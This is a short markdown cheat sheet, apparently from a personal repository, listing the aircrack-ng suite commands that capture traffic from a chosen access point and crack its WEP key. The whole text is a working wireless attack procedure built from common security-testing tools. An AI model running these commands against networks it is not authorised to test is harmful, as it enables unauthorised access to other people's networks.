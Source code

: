 # Cracking WEP with aircrack-ng

`airmon-ng start wlan0`

`airodump-ng wlan0mon`

Don't forget to replace CHANNEL en BSSID withe the right channel and bssid.

`airodump-ng -c "CHANNEL" --bssid "BSSID" -w dump wlan0mon`

After enough packets are recieved we can crack the encryption key using:

`aircrack-ng -b "juist bssid" dump-01.cap`

After cracking the password we can stop the wlan0mon interface using:

`airmon-ng stop wlan0mon`
`systemctl start NetworkManager.service`

